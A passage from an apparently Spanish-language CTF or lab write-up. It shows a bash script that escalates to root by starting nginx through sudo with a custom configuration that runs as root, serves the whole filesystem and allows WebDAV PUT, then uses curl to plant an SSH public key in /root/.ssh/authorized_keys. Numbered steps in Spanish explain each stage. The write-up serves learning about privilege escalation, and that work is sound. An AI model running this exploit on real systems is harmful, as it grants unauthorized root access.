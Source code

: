 ```bash
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 3000;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat /home/activemq/.ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:3000/root/.ssh/authorized_keys -d "$(cat /home/activemq/.ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```

La escalada se resume en los siguientes pasos:

1. Definir una configuración de `nginx` para que el servicio se ejecute como `root` y se exponga en el puerto 3000. El servicio aceptará el método `PUT` con el modo `dav_methods`, que nos permitirá subir archivos.
2. Se inicia el servicio especificando la configuración creada.
3. Se genera un par de claves SSH (pública y privada).
4. Se imprime la clave privada para poder copiarla en nuestra máquina atacante.
5. Se usa el método `PUT` para mover la clave pública al archivo `/root/.ssh/authorized_keys`.

Una vez ejecutado, copiamos la clave privada a nuestra máquina y nos aseguramos de darle los permisos correctos para
poder usarla:

![Private key](private_key.png)
